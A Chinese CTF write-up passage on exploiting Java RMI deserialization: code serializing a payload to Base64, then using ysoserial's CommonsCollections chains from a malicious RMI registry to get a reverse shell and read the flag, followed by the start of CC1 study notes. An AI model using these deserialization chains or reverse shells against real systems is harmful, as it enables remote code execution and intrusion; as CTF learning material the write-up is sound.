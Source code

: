```java
        //Serialize
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(payload);  //这里已经重写完writeObject，
        byte[] serializedObject = bos.toByteArray();

        //print payload
        System.out.print("\n\n" + Base64.getEncoder().encodeToString(serializedObject));


        User user = new User("L_team", 18);

        ByteArrayOutputStream _bos = new ByteArrayOutputStream();
        ObjectOutputStream _oos = new ObjectOutputStream(_bos);
        _oos.writeObject(user);
        byte[] bytes1 = _bos.toByteArray();
        String encode = java.util.Base64.getEncoder().encodeToString(bytes1);
        System.out.println("\n\n" + encode);
```

这里做的努力都是为了绕过一个一个if让rmi可以去反序列化，走到

```
hello = (Hello)registry1.lookup("hello");
```

这一步然后造成任意反序列化。

后面我直接化身脚本小子！

yososerial工具可以轻松地部署恶意rmi注册中心并且使用他们做好的攻击链

上到公网服务器，使用yososerial监听，把执行的命令写好，那就把反弹shell那个命令写上就可以了

逐个尝试CommonCollections攻击链，试到第五个在本地环境弹出计算器，好的，把payload改一改扔给靶机

得到shell，cat /flag得到flag

---

CC1的学习记录（拽英语是吧）
那个B站视频还是很大帮助的orz [链接](https://www.bilibili.com/video/BV1no4y1U7E1)
```java
package ctf.minil.java.minil.bean;

import ctf.minil.java.minil.bean.Hello;
import ctf.minil.java.minil.bean.HelloImp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.File;
import java.io.IOException;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.rmi.AlreadyBoundException;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

import java.util.HashMap;
import java.util.Map;

public class RMIServer {
```